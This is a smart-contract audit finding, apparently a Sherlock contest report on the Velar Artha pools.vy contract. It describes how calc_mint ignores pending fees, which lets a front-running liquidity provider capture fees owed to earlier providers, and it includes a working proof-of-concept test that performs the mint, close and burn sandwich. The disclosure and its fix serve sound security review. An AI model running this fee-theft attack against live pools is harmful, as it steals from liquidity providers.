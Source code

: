 Damaged Fern Bird

High

# pools.vy: calc_mint does not account for outstanding fees, allowing attackers to steal fees from LP

### Summary

Inside of the [calc_mint](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/pools.vy#L163-L172) the contract calculates how much LP-Tokens should be minted when a provider adds new liquidity. This does not account for outstanding fees. Therefor a new user gets the same LP-Token ratio as older LP providers. **This allows new providers to steal fees.**

### Root Cause

In the [`calc_mint`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/pools.vy#L163-L172) function, LP tokens are calculated based on the [`total_reserves`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/pools.vy#L119-L121) , which reflect the current pool state but do not account for any pending fees. This allows a large token holder to deposit just before a regular user closes their position.

When closing a position, the core contract  calls [`close`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/pools.vy#L258-L276) function, updating the pool reserves to reflect the added tokens paid as fee. As a result, the pool now contains more liquidity.

The attacker can then unstake their LP tokens and, based on the ratio of their LP share relative to the total LP value before the attack, they are able to claim a significant portion of the fees paid by the user.

### Internal pre-conditions

1. Large position will be closed and attacker notices before the tx is settled (i.e. by looking at the mem-pool)

### External pre-conditions

N/A

### Attack Path

1. Mint large LP position
2. wait for closing transaction to settle
3. Burn the LP position

### Impact

The attacker is able to steal fees that should have been paid to the older LP.

### PoC

## Walkthrough

A user opens a large position in the pool:
```vyper
    # user opens positions and closes it after 1 weeks
    tx = open(VEL, STX, True, d(999), 10, price=d(5), sender=long)
    assert not tx.failed

    chain.pending_timestamp += round(datetime.timedelta(weeks=1).total_seconds())    
```

The attacker now mints new LP tokens with a relatively large position vs. the existing LPs. In this case the new LP is ~100x the old LP:
```vyper
    mint(VEL, STX, LP, d(10_000_000), d(50_000_000), price=d(5), sender=lp_provider2)
```

Close tx settles and fees get paid to the pool:
```vyper
    tx = close(VEL, STX, 1, price=d(5), sender=long)
```

The attacker now burns all his LP tokens:
```vyper
    lp_amount_lp1 = LP.balanceOf(lp_provider)
    burn(VEL, STX, LP, lp_amount_lp2, price=d(5), sender=lp_provider2)
```

The original LP only earned 1 of each token:
```vyper
    lp1_inital_value = d(10_000) * 5 + d(50_000)
    lp1_value = lp1_base * 5 + lp1_quote # (as quote tokens)
    lp1_profit = lp1_value - lp1_inital_value # (as quote tokens)
    assert lp1_profit < 10 # lp1_profit is 6: 1 of base and quote
```

The attacker earned most of the fees, ~120 quote tokens:
```vyper
    lp2_inital_value = d(10_000_000) * 5 + d(50_000_000)
    lp2_value = lp2_base * 5 + lp2_quote # (as quote tokens)
    lp2_profit = lp2_value - lp2_inital_value # (as quote tokens)
    assert lp2_profit > 100 # lp2_profit ~ 120 (as quote tokens)
```

## Diff

Update the [`conftest.py`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/tests/conftest.py) to be the same as the currently planed parameters (based on sponsor msg in discord):
```diff
--- a/conftest.py.orig
+++ b/conftest.py
@@ -58,8 +58,8 @@ def LP2(project, core, owner):
 # ----------- Params -----------------

 PARAMS = {
-  'MIN_FEE'               : 1,
-  'MAX_FEE'               : 1,
+  'MIN_FEE'               : 10,
+  'MAX_FEE'               : 100,

   # Fraction of collateral (e.g. 1000).
   'PROTOCOL_FEE'          : 1000,
```

```diff
--- a/test_positions.py.orig
+++ b/test_positions.py
@@ -137,3 +137,52 @@ def test_value(setup, positions, open, VEL, STX, owner, long):
         'borrowing_paid_want'  : 0,
         'remaining'            : 1998000
     }
+
+def test_burn_fees(chain, setup, open, close, VEL, STX, LP, long, mint_token, core, mint, burn, lp_provider, lp_provider2):
+    setup()
+
+    # user opens positions and closes it after 1 weeks
+    tx = open(VEL, STX, True, d(999), 10, price=d(5), sender=long)
+    assert not tx.failed
+
+    chain.pending_timestamp += round(datetime.timedelta(weeks=1).total_seconds())    
+
+    # ============= frontrun part
+    mint_token(VEL, d(10_000_000), lp_provider2)
+    mint_token(STX, d(50_000_000), lp_provider2)
+    assert not VEL.approve(core.address, d(10_000_000), sender=lp_provider2).failed
+    assert not STX.approve(core.address, d(50_000_000), sender=lp_provider2).failed
+    mint(VEL, STX, LP, d(10_000_000), d(50_000_000), price=d(5), sender=lp_provider2)
+    # ============= frontrun part
+
+    # ============= user tx
+    tx = close(VEL, STX, 1, price=d(5), sender=long)
+    assert not tx.failed
+    # ============= user tx
+
+    # ============= backrun part
+    lp_amount_lp2 = LP.balanceOf(lp_provider2)
+    burn(VEL, STX, LP, lp_amount_lp2, price=d(5), sender=lp_provider2)
+    # ============= backrun part
+
+    # ============= original lp unstake
+    lp_amount_lp1 = LP.balanceOf(lp_provider)
+    burn(VEL, STX, LP, lp_amount_lp1, price=d(5), sender=lp_provider)
+    # ============= original lp unstake
+
+    lp1_base = VEL.balanceOf(lp_provider) - d(90_000) # ignore the unstaked balance
+    lp1_quote = STX.balanceOf(lp_provider) - d(50_000) # ignore the unstaked balance
+    lp2_base = VEL.balanceOf(lp_provider2)
+    lp2_quote = STX.balanceOf(lp_provider2)
+
+    # allow for small profit
+    lp1_inital_value = d(10_000) * 5 + d(50_000)
+    lp1_value = lp1_base * 5 + lp1_quote # (as quote tokens)
+    lp1_profit = lp1_value - lp1_inital_value # (as quote tokens)
+    assert lp1_profit < 10 # lp1_profit is 6: 1 of base and quote
+
+    # LP2 made a profit
+    lp2_inital_value = d(10_000_000) * 5 + d(50_000_000)
+    lp2_value = lp2_base * 5 + lp2_quote # (as quote tokens)
+    lp2_profit = lp2_value - lp2_inital_value # (as quote tokens)
+    assert lp2_profit > 100 # lp2_profit ~ 120 (as quote tokens)
```





### Mitigation

The contract `pools.vy` should call the `fees.vy` contract and look up the currently outstanding fees inside of the [`total_reserves`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/pools.vy#L119-L121) function.
